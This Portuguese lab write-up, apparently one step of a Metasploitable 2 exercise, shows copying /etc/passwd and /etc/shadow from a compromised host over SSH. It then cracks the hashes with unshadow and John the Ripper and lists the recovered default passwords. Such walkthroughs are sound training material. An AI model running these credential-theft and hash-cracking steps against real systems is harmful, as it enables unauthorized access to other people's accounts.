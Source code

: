 # 04. Bruteforce de senhas de usuários com John the Ripper

Após conseguir o acesso ao SSH da nossa máquina alvo (leia <a href="/steps/03_ganhando_acesso_direto_ao_ssh.md">03. Ganhando acesso direto ao <b>SSH</b></a>), vamos tentar comprometer e ter acesso as senhas dos outros usuários existentes na máquina alvo.

No Linux, existem dois arquivos armazenados a <i><b>"nível de sistema operacional"</b></i> que contém informações de login de usuários daquela mesma máquina - o `passwd`, localizado em `/etc/passwd`, e o `shadow`, localizado em `/etc/shadow`.

Vamos copiar esses dois arquivos para o nosso sistema operacional atacante e tentar fazer o bruteforce dos hashes das senhas dos usuários:

```
$ scp -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.56.102:/etc/passwd Documents/passwd                  
passwd                                                                                                                                 100% 1581     1.0MB/s   00:00    
                                                                                                                                                                         
$ scp -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.56.102:/etc/shadow Documents/shadow
shadow                                                                                                                                 100% 1207   940.6KB/s   00:00
```

Documentos passados pra nossa máquina atacante, vamos gerar um documento no formato que o <i><b>John the Ripper</b></i> possa reconhecer e fazer o processo de bruteforce nas hashs:

```
$ cd Documents && unshadow passwd shadow > ms2_unshadow.txt
Created directory: /home/pqpmath3ws/.john
```

Unificamos as informações dos dois arquivos, e agora iremos usar o <i><b>John the Ripper</b></i> para tentar descobrir as senhas dos usuários presentes na máquina.

O <i><b>John the Ripper</b></i> é uma ferramenta <i><b>open-source</b></i> de auditoria de segurança de senhas e recuperação de senhas de código aberto disponível para muitos sistemas operacionais.

Com a explicação feita, vamos executar o seguinte comando:

`$ john ms2_unshadow.txt`

E o retorno do mesmo nos dão as seguintes informações:

```
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
user             (user)     
postgres         (postgres)     
msfadmin         (msfadmin)     
service          (service)     
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
123456789        (klog)     
batman           (sys)     
Proceeding with incremental:ASCII
6g 0:07:07:35  3/3 0.000233g/s 68490p/s 68490c/s 68490C/s aakkk62..aak18oc
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

O <i><b>John the Ripper</b></i> apontou para gente as seguintes informações:

- Usuário: `klog` / Senha: `123456789`
- Usuário: `msfadmin` / Senha: `msfadmin`
- Usuário: `postgres` / Senha: `postgres`
- Usuário: `service` / Senha: `service`
- Usuário: `sys` / Senha: `batman`
- Usuário: `user` / Senha: `user`

O <b>ÚNICO</b> usuário que ficou faltando da lista foi o `root` <i><b>(AINDA NÃO DESCOBERTA A SENHA)</b></i>.

Eu abortei o processo depois de pegar os 6 outros usuários pois eu tentei quebrar essa mesma hash com outro software <i><b>open-source</b></i> usando o mesmo dicionário (localizado em `/usr/share/john/password.lst`) e até onde eu executei, ainda não achei a senha do mesmo. Tenso, mas faz parte ;)

Com as senhas da maioria dos usuários expostas, vamos continuar com o nosso progresso - o céu é o limite! Vamos para a nossa próxima etapa!
